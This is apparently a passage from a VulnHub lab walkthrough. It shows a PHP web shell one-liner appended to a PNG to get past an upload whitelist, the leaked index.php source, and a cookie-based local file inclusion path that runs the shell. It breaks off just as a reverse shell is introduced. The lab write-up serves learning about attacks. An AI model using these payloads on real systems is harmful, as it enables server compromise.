 this code shows that only acceptable extension are those in `$whilelist` variable and then it md5 hash the basename (for example test.png) and upload it to `/upload` directory

by inserting the php code in the last line of a png file, the uploader allows the file to be uploaded so i used the following code 

```php
<?php system($_GET["cmd"]) ?>
```
```text
root@kali~# echo '<?php system($_GET["cmd"]) ?>' >> test.png
```
and uploaded it, in the `/upload` folder you will find the md5 hash of the file name :

![hash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/357e28e8-d616-4c98-a4f6-f9a3f7d09101)

now we should find a way to execute the code, after spending some time i tried to get source code of the index.php using php filter , the php code of the page is :

```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>

<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?
```

## 3.Gaining Shell

Yes, there is a `LFI` vulnerability in the cookie, so add the following cookie to your browser :

```text
lang=../upload/843eb8966ba95af4e3b673970ba8ebe8.png
```
you cand do it by browser storage section or console section by `document.cookie="lang=../upload/843eb8966ba95af4e3b673970ba8ebe8.png"`

and then call the page with `cmd` parameter and a reverse shell, i used pytnhon reverse shell and url encoded it :
